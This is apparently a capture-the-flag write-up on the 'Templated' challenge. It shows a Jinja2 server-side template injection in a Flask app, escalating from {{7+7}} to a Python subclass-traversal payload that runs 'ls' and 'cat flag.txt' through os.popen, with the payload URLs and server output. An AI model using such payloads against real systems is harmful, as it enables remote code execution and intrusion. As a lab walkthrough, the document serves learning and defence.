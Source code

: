 # Templated

## Set up
Start challenge and browse to given address

## Explore the site
- There doesn't seem to be a lot going on here
- Try using burpsuite to inspect requests and responses and don't get much
- Try using a random resource at the end of the url and we get the extension echoed back

```
http://159.65.85.171:32767/asdf

Error 404

The page 'asdf' could not be found
```
- Flask uses a templating engine called jinja2, can execute python using {{ }}
- Try using {{7+7}} in the url

```
http://159.65.85.171:32767/%7B%7B7+7%7D%7D

The page '14' could not be found
```


## SSTI
```
http://159.65.85.171:32767/{{config}}

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```
- Doesn't seem to be anything useful in the flask config
- It seems like the general approach for these types of problems is to find a way to import the os module and leveraging that to execute the system commands
- This page is great at shedding light on how this thing works
	- https://secure-cookie.io/attacks/ssti/

- Blindly using their string didn't work, time to explore why
```
http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen(%22ls%22).read()%7D%7D
```

## Local python interpreter research
- This is such a clever technique
- It seems like they are starting with the python string class and using private attributes attached to it to navigate there way to a class that imports the sys module
	- The sys module can then be used to import the os module and then using popen can run anything on the host os
	- That's pretty wild
- The subclass they use (182) correlates to "warnings.catch_warnings" class
	- from the list I created below for my local python interpreter that doesn't line up, I'm going to assume this is happening on the target device
	- warnings.catch_warnings seems to be element number 144 in the __subclasses__() output
```
>>> for i, class_name in enumerate("foo".__class__.__base__.__subclasses__()):
...     print(i, class_name)
... 
0 <class 'type'>
1 <class 'async_generator'>
2 <class 'int'>
3 <class 'bytearray_iterator'>
4 <class 'bytearray'>
5 <class 'bytes_iterator'>
6 <class 'bytes'>
7 <class 'builtin_function_or_method'>

    ....

136 <class 'collections.abc.Callable'>
137 <class 'os._wrap_close'>
138 <class '_sitebuiltins.Quitter'>
139 <class '_sitebuiltins._Printer'>
140 <class '_sitebuiltins._Helper'>
141 <class 'types.DynamicClassAttribute'>
142 <class 'types._GeneratorWrapper'>
143 <class 'warnings.WarningMessage'>
144 <class 'warnings.catch_warnings'>
145 <class 'importlib._abc.Loader'>
146 <class 'itertools.accumulate'>
147 <class 'itertools.combinations'>
148 <class 'itertools.combinations_with_replacement'>
149 <class 'itertools.cycle'>
150 <class 'itertools.dropwhile'>
151 <class 'itertools.takewhile'>

    ...

186 <class 'contextlib._BaseExitStack'>
187 <class 'ast.AST'>
188 <class 'enum.auto'>
189 <enum 'Enum'>
190 <class 'ast.NodeVisitor'>
191 <class 'dis.Bytecode'>
192 <class 're.Pattern'>
193 <class 're.Match'>
194 <class '_sre.SRE_Scanner
241 <class 'dataclasses.InitVar'>
242 <class 'dataclasses.Field'>
243 <class 'dataclasses._DataclassParams'>
244 <class 'pprint._safe_key'>
245 <class 'pprint.PrettyPrinter'>
```

## This is turning into a text parsing exercise
- Now I'm sure there are many ways you can do this but I felt like using sed
- Firstly I used the following url to get the subclasses list from the target device
    - http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()%7D%7D
- then copied it into a local text file
```
$ cat subclasses_out | sed 's/,/\n/g' | wc -l
187
```
- Using 187 as our number gave zlib as the class, but getting the list of subclasses again it just seemed to be off by 1
```
http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()[187]%7D%7D

Error 404

The page '<class 'zlib.Compress'>' could not be found


http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()[186]%7D%7D

Error 404

The page '<class 'warnings.catch_warnings'>' could not be found
```
- Now that we have a reference to the sys module we can move onto exploiting 

## Exploitation
```
http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen(%22ls%22).read()%7D%7D

returns

Error 404

The page 'bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found
```
- This looks like the root directory of a linux based os
- Not sure why the flask app has set this as it's working directory, but notice we have a flag.txt here
- Simply changing the command being executed by popen gives us the flag
```
http://159.65.85.171:32767/%7B%7B%22foo%22.__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen(%22cat%20flag.txt%22).read()%7D%7D
```

